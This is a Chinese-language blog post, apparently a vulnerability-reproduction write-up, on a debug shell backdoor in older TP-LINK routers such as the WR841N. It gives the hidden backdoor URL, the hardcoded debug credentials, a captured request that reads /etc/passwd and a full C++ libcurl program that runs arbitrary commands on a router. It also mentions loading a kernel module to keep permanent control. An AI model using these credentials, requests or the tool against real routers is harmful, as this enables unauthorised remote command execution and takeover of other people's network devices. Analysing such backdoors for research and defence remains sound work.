 ```yaml
---
categories: 漏洞复现
date: "2017-12-06T00:00:00Z"
description: 本篇文章介绍一个TP-LINK低版本的一个Shell调试后门
title: TP-LINK Shell调试后门浅析
url: /archivers/2017-12-06/1
---
```

本篇文章介绍一个TP-LINK低版本的一个调试后门
<!--more-->

* 目录
{:toc}

## 0x00 前言

TPLINK 存在一个 Shell 调试后门，TPLINK WR941N V2_090803 路由器 后门，TP-link路由器后门漏洞。

影响版本：

WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N

## 0x01 分析

该后门的地址在：`/userRpmNatDebugRpm26525557/linux_cmdline.html`

在公司刚好有一台，它的版本是：`TL-WR841N`。


![0x00](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x00.png)


参考网上文章获得了用户名和密码：`osteam/5up`

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x01.png)

那么它是怎么执行命令的呢？会不会存在越权情况？PS:后来发现它必须要登录路由器才可以访问到这个Shell接口


通过抓包发现，它会将命令发送到另外一个页面：


![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x02.png)


并且命令结果都在JS代码块中。

```
GET /userRpm/DebugResultRpm.htm?cmd=cat%20/etc/passwd&usr=osteam&passwd=5up HTTP/1.1
Host: 192.168.3.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.3.1/userRpmNatDebugRpm26525557/linux_cmdline.html
Authorization: Basic YWRtaW46YWRtaW4=
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1

----------------------------------


HTTP/1.1 200 OK
Server: TP-LINK Router
Connection: close
Content-Type: text/html
WWW-Authenticate: Basic realm="TP-LINK Wireless N Router WR841N"

<SCRIPT language="javascript" type="text/javascript">
var cmdResult = new Array(
"cat /etc/passwd&\r\n811\r\n# root:x:0:0:root:/root:/bin/sh\r\nAdmin:x:0:0:root:/root:/bin/sh\r\nbin:x:1:1:bin:/bin:/bin/sh\r\ndaemon:x:2:2:daemon:/usr/sbin:/bin/sh\r\nadm:x:3:4:adm:/adm:/bin/sh\r\nlp:x:4:7:lp:/var/spool/lpd:/bin/sh\r\nsync:x:5:0:sync:/bin:/bin/sync\r\nshutdown:x:6:11:shutdown:/sbin:/sbin/shutdown\r\nhalt:x:7:0:halt:/sbin:/sbin/halt\r\nuucp:x:10:14:uucp:/var/spool/uucp:/bin/sh\r\noperator:x:11:0:Operator:/var:/bin/sh\r\nnobody:x:65534:65534:nobody:/home:/bin/sh\r\nap71:x:500:0:Linux User,,,:/root:/bin/sh\r\n\r\n",
0,0 );
</SCRIPT>
<META http-equiv=Content-Type content="text/html; charset=gb2312">
<HTML>
<HEAD><TITLE>TL-WR841N</TITLE>
<META http-equiv=Pragma content=no-cache>
<META http-equiv=Expires content="wed, 26 Feb 1997 08:21:57 GMT">
<LINK href="/dynaform/css_main.css" rel=stylesheet type="text/css">
<SCRIPT language="javascript" src="/dynaform/common.js" type="text/javascript"></SCRIPT>
<SCRIPT language="javascript" type="text/javascript"><!--
//--></SCRIPT>
<script language="Javascript">
function doGetResult()
{
	location.href="/userRpm/DebugResultRpm.htm";
}
</script>
</head>
<body>
</body>
</html>
<script language="JavaScript">
	var	timeInterVal = 2000;
	obj = parent.document.getElementById("result");
	var temp = obj.scrollTop;
	obj.value += cmdResult[0];
	obj.scrollTop = temp;
	if(parent.bIsonFocus == 0)
		obj.scrollTop = obj.scrollHeight;
	setTimeout("doGetResult()",timeInterVal);
</script>
```

其中：`Authorization: Basic YWRtaW46YWRtaW4=`就是路由器的权限认证方式了，并且调试接口的用户名密码是以GET方式传输的


## 0x02 动起手来

我使用C++写了一个测试的程序，主要是还原它发送的数据。

```cpp
#include <iostream>
#include <curl/curl.h>
#include <regex>
#include <string>
#define TIMEOUT 5

std::string m_replace(std::string strSrc,const std::string &oldStr, const std::string &newStr,int count=-1)
{
    std::string strRet=strSrc;
    size_t pos = 0;
    int l_count=0;
    if(-1 == count)
        count = strRet.size();
    while ((pos = strRet.find(oldStr, pos)) != std::string::npos)
    {
        strRet.replace(pos, oldStr.size(), newStr);
        if(++l_count >= count) break;
        pos += newStr.size();
    }
    return strRet;
}

size_t WriteData(void *pData, size_t size, size_t nmemb, void *stream)
{
    std::string *pStr = (std::string *)stream;

    size_t len  = size * nmemb;
    pStr->append((const char *)pData, len);

    return len;

}

int main(int argc,char * argv[]) {
    if(argc < 5){
        std::cout << "Usage: " << argv[0] << " <HOST> <Username> <Password> <Command>"<<std::endl;
        std::cout << "Version: WR740N, WR740ND, WR743ND, WR842ND, WA-901ND, WR941N, WR941ND, WR1043ND, WR2543ND, MR3220, MR3020, WR841N"<<std::endl;
        exit(EXIT_SUCCESS);
    }

    std::string host = argv[1];
    std::string username = argv[2];
    std::string password = argv[3];
    std::string command = argv[4];
    std::string body;
    std::string commands = curl_escape(command.data(),command.size());
    host="http://"+host+"/userRpm/DebugResultRpm.htm?cmd="+commands+"&usr=osteam&passwd=5up";

    CURL * curl = curl_easy_init();
    curl_easy_setopt(curl,CURLOPT_URL,host.c_str());
    curl_easy_setopt(curl,CURLOPT_TIMEOUT,TIMEOUT);
    curl_easy_setopt(curl,CURLOPT_USERNAME,username.c_str());
    curl_easy_setopt(curl,CURLOPT_PASSWORD,password.c_str());
    curl_easy_setopt(curl,CURLOPT_WRITEFUNCTION,WriteData);
    curl_easy_setopt(curl,CURLOPT_WRITEDATA,body);
    CURLcode res = curl_easy_perform(curl);
    if(res !=0){
        std::cout << "ERROR" << std::endl;
        curl_easy_cleanup(curl);
        exit(EXIT_SUCCESS);
    }
    int status = 0;
    curl_easy_getinfo(curl,CURLINFO_RESPONSE_CODE,&status);
    if(status != 200 || status == 401){
        std::cout << "ERROR Incorrect username or password." << std::endl;
        exit(EXIT_SUCCESS);
    }
    //std::cout << body << std::endl;
    std::regex match_command_result("\\(\\n.*\\n0,0 \\)");
    std::smatch mth;
    std::regex_search(body,mth,match_command_result);
    std::cout << m_replace(mth.str(),"\\r\\n","\n") << std::endl;
    curl_easy_cleanup(curl);
    return 0;
}

```

编译：`g++ main.cpp -lcurl -o tplinkShell`

使用过程：

![0x03](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x03.png)

:-) 正则写的不好，莫见怪

## 0x03 测试写入文件 - 编写内核模块

![0x04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x04.png)

发现Web目录是不可写、不可读的。

参考：`https://www.cnblogs.com/amaoxiaozhu/archive/2013/03/08/2950002.html`

可以进行编写mod，使内核加载

![0x05](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-12-06/2017-12-06-0x05.png)


传送门：https://www.cnblogs.com/skyred99/p/5683710.html


这块先放着，后面如过理解了再尝试导入内核模块，永久控制路由器

```bash
payloads@koone:~$ ./tplinkShell 192.168.3.1 admin admin "/sbin/insmod"
(
"/sbin/insmod
BusyBox v1.01 (2009.01.06-01:38+0000) multi-call binary

Usage: insmod [OPTION]... MODULE [symbol=value]...

Loads the specified kernel modules into the kernel.

Options:
	-f	Force module to load into the wrong kernel version.
	-k	Make module autoclean-able.
	-v	verbose output
	-q	quiet output
	-L	Lock to prevent simultaneous loads of a module
	-o NAME	Set internal module name to NAME
	-x	do not export externs
```

insmod用于加载模块